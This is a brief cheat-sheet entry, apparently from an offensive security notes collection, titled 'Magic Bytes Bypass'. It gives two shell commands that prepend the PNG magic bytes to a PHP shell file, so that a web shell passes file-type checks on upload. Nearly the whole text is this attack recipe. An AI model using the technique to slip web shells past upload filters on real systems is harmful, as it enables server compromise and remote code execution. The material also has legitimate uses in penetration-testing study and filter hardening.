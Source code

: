# Magic Bytes Bypass

## .PNG

 - echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png

 - cat shell.php.png >> mime_shell.php.png
